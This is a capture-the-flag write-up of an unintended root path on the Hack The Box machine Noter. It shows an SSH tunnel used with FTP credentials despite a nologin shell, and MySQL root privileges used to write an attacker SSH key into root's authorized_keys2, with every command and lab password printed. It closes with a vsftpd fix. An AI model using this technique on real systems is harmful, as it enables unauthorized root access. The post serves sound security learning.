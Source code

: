 

# HTB: Noter - Alternative Root (First Blood)

#ctf #hackthebox #htb-noter #tunnel #mysql #mysql-privileges
#mysql-file-write #ssh #vsftpd #vsftpd-local-enable Sep 28, 2022






-   [HTB: Noter](/htb-noter.md)
-   [Alternative Noter Root](#)




![](/img/noter-unintended-cover.png)

When jkr got first blood on Noter, he did it using all the same intended
pieces for the box, but in a very clever way that allowed getting a root
shell as the first shell on the box. I had intended to include that in
my original Noter writeup, but completely forgot, so I'm adding it here.

## Noter Paths

The full Noter writeup will be linked in the sidebar of this post, but
the quick summary of the steps is as follows:

[![](/img/Noter-Flow.png)*Click for full
size ![image*](/img/Noter-Flow.png)

There's a good bit condensed into that flow chart, but the part up to
getting FTP access as ftp_admin and leaking the site source are the
same. The trick is in how jkr uses the MySQL password with the ftp_admin
password to go right to the root step.

## Alternative Path

### SSH as ftp_admin

#### SSH Blocked

When I get password for ftp_admin ("ftp_admin@Noter!"), I use them to
get access to FTP and leak source code. The creds are actually for a
system account on Noter, which is what FTP is using to authenticate:



    oxdf@hacky$ ftp 10.10.11.160
    Connected to 10.10.11.160.
    220 (vsFTPd 3.0.3)
    Name (10.10.11.160:oxdf): ftp_admin
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 



I can try to connect over SSH, and it doesn't work:



    oxdf@hacky$ ssh ftp_admin@10.10.11.160
    ftp_admin@10.10.11.160's password: 
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
    ...[snip]...

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    This account is currently not available.
    Connection to 10.10.11.160 closed.



On closer inspection, it kind of works. It connects, prints the message
of the day, but then it prints "This account is currently not available"
and then closes the connection.

#### What's Blocked

The reason that has to do with how the account's default shell is
configured. With a root shell on the box, I'll see that the user is in
the `/etc/passwd` file, and the shell is configured to `/sbin/nologin`:



    root@noter:~# cat /etc/passwd | grep ftp_admin
    ftp_admin:x:1003:1003::/srv/ftp/ftp_admin:/sbin/nologin



This binary prints that message, and exits:



    root@noter:~# /sbin/nologin 
    This account is currently not available.



It doesn't allow for any additional commands to be run. For a typical
user account, I might expect to find `/bin/sh` or `/bin/bash` as the
default shell.

If I use the root shell to change `/sbin/nologin` to `/bin/bash`, I'm
then able to log in as ftp_admin without issue:



    oxdf@hacky$ sshpass -p 'ftp_admin@Noter!' ssh ftp_admin@10.10.11.160 
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
    ...[snip]...
    ftp_admin@noter:~$ 



### Create Tunnel

I'll abuse this by making use of the `-N` flag in SSH. The [man
page](https://linux.die.net/man/1/ssh) shows:

> **-N**' Do not execute a remote command. This is useful for just
> forwarding ports (protocol version 2 only).

I'll want to do exactly that, forward ports.

For details on SSH tunneling, check out my [PWK Notes: Tunneling and
Pivoting](/pwk-notes-tunneling-update1.md) post from 2019.

I'll use `-N` along with `-L` to create a tunnel from 3306 on my host to
3306 on Noter, allowing me access to a port on Noter that's only
listening on localhost.

When I run this, it just hangs:



    oxdf@hacky$ sshpass -p 'ftp_admin@Noter!' ssh -N -L 3306:localhost:3306 ftp_admin@10.10.11.160 



But `netstat` shows that the `ssh` process on my host is now listening
on 3306:



    oxdf@hacky$ sudo netstat -tnlp | grep 3306
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      9237/ssh            
    tcp6       0      0 ::1:3306                :::*                    LISTEN      9237/ssh



And I can connect and it works:



    oxdf@hacky$ mysql -h 127.0.0.1 -u root -pNildogg36
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 771
    Server version: 5.5.5-10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

    Copyright (c) 2000, 2022, Oracle and/or its affiliates.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql>



### Abuse MySQL

#### Enumeration

The MySQL access is as the root user:



    mysql> select current_user();
    +----------------+
    | current_user() |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.08 sec)



This user has all privileges on all databases in this MySQL instance:



    mysql> show grants for root@localhost;
    +----------------------------------------------------------------------------------------------------------------------------------------+
    | Grants for root@localhost                                                                                                              |
    +----------------------------------------------------------------------------------------------------------------------------------------+
    | GRANT ALL PRIVILEGES ON *.* TO `root`@`localhost` IDENTIFIED BY PASSWORD '*937440AD99CBB4A102402708AA43B689818489C8' WITH GRANT OPTION |
    | GRANT PROXY ON ''@'%' TO 'root'@'localhost' WITH GRANT OPTION                                                                          |
    +----------------------------------------------------------------------------------------------------------------------------------------+
    2 rows in set (0.09 sec)



#### Write File

With all privs comes the privilege to write files. I could solve the
intended path this was as well, once getting to MySQL.

I'll try writing my SSH public key (I like ed25519 keys since they are
very short) to root's `authorized_keys` file:



    mysql> select "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" into outfile "/root/.ssh/authorized_keys2";
    Query OK, 1 row affected (0.09 sec)



jkr did something subtle but clever here as well, writing to
`authorized_keys2`. This file was once for [different
algorithms](https://serverfault.com/questions/116177/whats-the-difference-between-authorized-keys-and-authorized-keys2),
but was deprecated in 2001 in favor of just using `authorized_keys`. And
yet, it actually still works by default in most (if not all?) scenarios.
This makes it a safer place to overwrite without risking stomping the
admin's actual key.

*Update*: Turns out that not only was it safer, but the only was to do
this, as the database wouldn't let them overwrite existing files:

> You remember correctly - this was the reason I picked
> authorized_keys2:
> [pic.twitter.com/6aSb6LTKu1](https://t.co/6aSb6LTKu1)
>
> --- jkr (@ATeamJKR) [September 28,
> 2022](https://twitter.com/ATeamJKR/status/1575137503379587075?ref_src=twsrc%5Etfw)

#### SSH

With that key, I can connect as root and get a shell:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.160
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
    ...[snip]...
    root@noter:~# 



## Fixing This

The best fix here is to configure FTP such that is isn't using accounts
from the box.

Looking at lines that don't start with a comment in `/etc/vsftpd.conf`:



    root@noter:/etc# cat vsftpd.conf | grep -v "^#"
    listen=NO
    listen_ipv6=YES
    anonymous_enable=NO
    local_enable=YES
    dirmessage_enable=YES
    use_localtime=YES
    xferlog_enable=YES
    connect_from_port_20=YES
    chroot_local_user=YES
    chroot_list_file=/etc/vsftpd.chroot_list
    secure_chroot_dir=/var/run/vsftpd/empty
    pam_service_name=vsftpd
    rsa_cert_file=/etc/ssl/certs/ssl-cert-snakeoil.pem
    rsa_private_key_file=/etc/ssl/private/ssl-cert-snakeoil.key
    ssl_enable=NO



`local_enable` is what allows local users to log in. Disabling that and
generating FTP only users would have prevented this attack.


[« HTB: Noter](/htb-noter.md)






